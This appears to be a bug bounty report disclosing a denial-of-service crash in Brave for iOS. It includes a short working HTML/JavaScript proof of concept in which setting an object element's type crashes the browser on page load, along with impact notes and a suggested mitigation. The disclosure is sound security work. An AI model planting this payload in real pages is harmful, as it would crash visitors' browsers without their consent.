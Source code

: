 # DoS in Brave for iOS

> Metnew: was this crash exploitable? I don't know, but seems yes:  `0x000000010172f63c` - crash address. I didn't have much interest to investigate this crash for 80$.

## Summary

Attacker could initiate DoS during the page load.

## Products affected

1.6 (18.05.17.13)
Device iPhone 6s (iOS 11.3.1)

## Steps To Reproduce:

PoC:

```html
<body>
    <script>
        let o = document.body.appendChild(document.createElement('object'));
        // application/json or application/pdf are valid values too
        o.type = 'text/html' // <-- triggers DoS
    </script>
</body>
```

## Supporting Material/References

As I understood, Brave browser for iOS is a fork of Mozilla Firefox for iOS.
Firefox isn't vulnerable, what makes this bug eligible.

Crash log attached.
Screencast attached.

## Impact

The first page loaded after the browser crash is the crashed page. The PoC is immediate and doesn't require any additional interaction, so it could make browser broken, until the tab will be closed in offline mode.
I'll suggest to remember the crashed page and don't load it during the browser opening. It'll probably makes all DoS attacks less dangerous.

> I'm not sure that the trick with closing tab in offline is obvious for most users.
